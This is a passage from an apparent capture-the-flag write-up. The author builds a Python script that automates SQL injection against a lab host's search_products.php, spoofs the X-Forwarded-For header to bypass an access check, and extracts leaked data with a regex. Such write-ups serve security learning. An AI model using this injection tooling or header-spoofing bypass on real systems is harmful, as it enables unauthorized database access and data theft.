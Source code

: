 The first thing I do is to catch again the request with **BurpSuite** to analyze what data I will need to send the request with the Python **requests** library, I need to know the name of the **.php** script in charge of interacting with the **DB**, the method used (**POST**), plus some headers and the name of the parameter where I perform the injection. In the first test of my script I use the **re** library to leak from the response obtained from the server, only the information I need. I run the tool and for the moment the results are as expected, I can continue improving its performance.

```bash
./bin/python3 fidelity_sqli.py
# l
# print(r.text)
# re.findall(r'<tr><td>1</td><td>2</td><td>(.*?)</td><td>4</td><td>5</td><td>6</td></tr>',r.text)
# re.findall(r'<tr><td>1</td><td>2</td><td>(.*?)</td><td>4</td><td>5</td><td>6</td></tr>',r.text)[0]

nvim fidelity_sqli.py
```

> **fidelity_sqli.py**:

```python
#!/usr/bin/python3

import pdb,requests
from pwn import *

def def_handler(sig,frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
sqli_url = "http://10.10.10.167/search_products.php"

def makeRequest(injection):

    headers = {"X-Forwarded-For": "192.168.4.28"}
    post_data = {
        'productName': "%s" % injection
    }

    r = requests.post(sqli_url, data=post_data,headers=headers)
#    pdb.set_trace()
    sqli_response = re.findall(r'<tr><td>1</td><td>2</td><td>(.*?)</td><td>4</td><td>5</td><td>6</td></tr>',r.text)[0]
    print("\n" + sqli_response + "\n")

if __name__ == "__main__":

    while True:
        injection = input("[+] Make your injection: ")

        if injection != 'exit':
            makeRequest(injection)
        else:
            print("\n\n[!] Exiting ...\n")
            exit(0)
```
